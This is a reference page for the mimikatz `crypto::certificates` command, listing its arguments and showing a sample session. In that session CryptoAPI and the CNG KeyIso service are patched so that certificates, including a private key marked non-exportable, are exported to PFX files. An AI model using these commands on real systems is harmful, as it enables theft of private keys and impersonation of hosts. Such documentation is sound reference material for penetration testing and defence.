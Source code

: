 # certificates

`crypto::certificates` lists or exports certificates. It has the following command line arguments:

* `/systemstore`: the system store that must be used (default: `CERT_SYSTEM_STORE_CURRENT_USER`)
* `/store`: the store that must be used to list/export certificates (default: `My`) - full list with `crypto::stores`
* `/export`: export all certificates to files (public parts in `DER`, private parts in `PFX` files - password protected with: `mimikatz`)
* `/silent`: if user interaction is required, then abort
* `/nokey`: do not try to interact with the private key

```
mimikatz # crypto::capi
Local CryptoAPI patched

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # crypto::cng
"KeyIso" service patched

mimikatz # crypto::certificates /systemstore:local_machine /store:my /export
 * System Store  : 'local_machine' (0x00020000)
 * Store         : 'my'

 0. example.domain.local
        Key Container  : example.domain.local
        Provider       : Microsoft Software Key Storage Provider
        Type           : CNG Key (0xffffffff)
        Exportable key : NO
        Key size       : 2048
        Public export  : OK - 'local_machine_my_0_example.domain.local.der'
        Private export : OK - 'local_machine_my_0_example.domain.local.pfx'
```
